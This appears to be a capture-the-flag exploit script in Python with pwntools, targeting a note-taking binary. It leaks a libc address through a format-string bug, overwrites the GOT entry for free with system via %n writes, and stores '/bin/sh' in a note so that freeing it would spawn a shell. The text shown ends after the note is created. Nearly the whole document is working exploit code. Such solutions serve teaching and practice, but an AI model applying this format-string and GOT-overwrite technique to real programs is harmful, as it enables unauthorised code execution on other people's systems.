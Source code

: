 ```python

# Leak addresses

# for i in range(100):
#     try:
#         io = start()
#         create(io, 0, '%{}$p'.format(i))
#         view(io, 0)
#         leak = io.recvline().strip()
#         remove(io, 0)
#         print(f'{i}: ' + str(leak))
#         io.close()
#     except EOFError:
#         pass

# 8th offset pointing to 12
# 40th offset pointing to 46
# 13th offset pointing to libc

io = start()

# Leak libc address
create(io, 0, b'%13$p')
view(io, 0)

leak = int(io.recvuntil(b'Choose')[:-8], 16)
libc.address = leak - 0x28150
system = libc.sym['system']

log.success("Libc leak: %#x", leak)
log.success("Libc base address: %#x", libc.address)
log.success("System address: %#x", system)

# Write got free address at 12th position via position 8
payload = b"%x" * 6
payload += b"%4210668x"
payload += b"%n"

create(io, 1, payload)
view(io, 1)

# Write got free address + 3 at 46th position via position 40
payload = b"%x" * 38
payload += b"%4210503x"
payload += b"%n"

create(io, 2, payload)
view(io, 2)

high = ((system & 0xffffff000000) >> 24)
low = (system & 0xffffff)

payloadlow = f"%{low}x%12$n"
payloadhigh = f"%{high}x%46$n"

# Overwrite free with system
create(io, 3, str(payloadlow).encode())
create(io, 4, str(payloadhigh).encode())
view(io, 3)
view(io, 4)

# Create new note and submit /bin/sh, then remove note to call system(/bin/sh)
create(io, 5, b'/bin/sh')
```